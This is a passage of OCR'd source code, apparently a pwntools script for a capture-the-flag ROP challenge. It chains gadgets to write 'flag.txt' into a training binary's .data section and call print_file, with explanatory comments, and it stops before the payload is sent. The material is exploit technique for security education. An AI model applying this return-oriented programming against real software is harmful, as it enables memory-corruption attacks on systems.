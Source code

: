 	# it does, so put it into a variable for our payload
	rop_gadget1_addr =  p32(rop.edi.address)
	
	# locate the start of the .data section header 
	data_addr = p32(elf.symbols["data_start"])
	
	# first value we're popping is edi... since we want *edi = ebp = "flag", set edi to .data address
	# this is because we're writing the string "flag" to memory starting at the .data section
	edi = data_addr
	
	# ebp = "flag"
	ebp = b"flag"
	
	# get addr of usefulGadget, our second ROP gadget
	useful_Gadget_addr = p32(elf.symbols["usefulGadgets"]) 
	
	#rop_gadget1_addr stays same, because we will still be using that first ROP gadget to pop edi and ebp
	
	#edi is now data_addr + 0x4, since we are writing 4 more Bytes, and this is a 32-bit process
	edi2 = p32(elf.symbols["data_start"] + 4)
	
	#ebp is now ".txt":
	ebp2 = b".txt"
	
	# get the address of the print_file function--this is our final function that we are leveraging in order to open the "flag.txt" file
	print_file_addr = p32(elf.symbols["plt.print_file"])
	
	# when the program calls print_file, the stack should have an eip at the top (at lower memory address), then arguments below it (at higher memory addresses)... this eip is necessary so that the print_file function knows where to return to after opening our file. However, it is even more important for stack offsets. The program is going to use ebp indexing to determine where its arguments are. It'll expect a value at eip, even though eip isn't properly used and causes a segfault. 
	fake_eip = b"dddd"
	